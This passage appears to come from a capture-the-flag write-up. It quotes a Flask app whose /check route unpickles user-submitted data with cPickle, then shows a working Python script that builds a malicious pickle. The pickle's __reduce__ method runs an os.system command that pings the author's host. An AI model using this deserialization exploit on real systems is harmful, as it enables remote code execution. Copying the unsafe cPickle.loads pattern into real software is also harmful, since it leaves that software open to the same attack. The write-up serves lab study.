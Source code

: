 ```python
            elif not any(c.lower() in char.lower() for c in WHITELIST):
                error = True
            else:
                # TODO - Pickle into dictionary instead, `check` is ready
                p_id = md5(char + quote).hexdigest()
                outfile = open("/tmp/" + p_id + ".p", "wb")
                outfile.write(char + quote)
                outfile.close()
                success = True
        except Exception as ex:
            error = True

    return render_template("submit.html", error=error, success=success)

@app.route("/check", methods=["POST"])
def check():
    path = "/tmp/" + request.form["id"] + ".p"
    data = open(path, "rb").read()

    if "p1" in data:
        item = cPickle.loads(data)
    else:
        item = data

    return "Still reviewing: " + item
```

So the submitted quote must:
- include one of the whitelisted character in the character parameter
- be a valide `cPickle` object

Knowing this we can craft valid payloads. We must be careful and take care of:
- new lines encoding (Linux box, only `%0a`)
- return type of our payload (must be a string because it is concatenated with a string)
- any python module should be first imported in the payload if not already imported by the application (especially `os`), see <https://sensepost.com/blog/2010/playing-with-python-pickle-%233/>

My first valid payload is crafted to ping my host IP. The python code that generates the payload is:
```python
#!/usr/bin/env python

import os
import cPickle
from hashlib import md5
import urllib

# Exploit that we want the target to unpickle
class Exploit(object):
    def __reduce__(self):
        return (eval,('str(eval("__import__(\'os\').system(\'echo moe;ping -c 7 10.10.14.222\')"))',))

shellcode = cPickle.dumps(Exploit())
print(shellcode)

print(urllib.quote_plus(shellcode))
print(md5(shellcode).hexdigest())
```
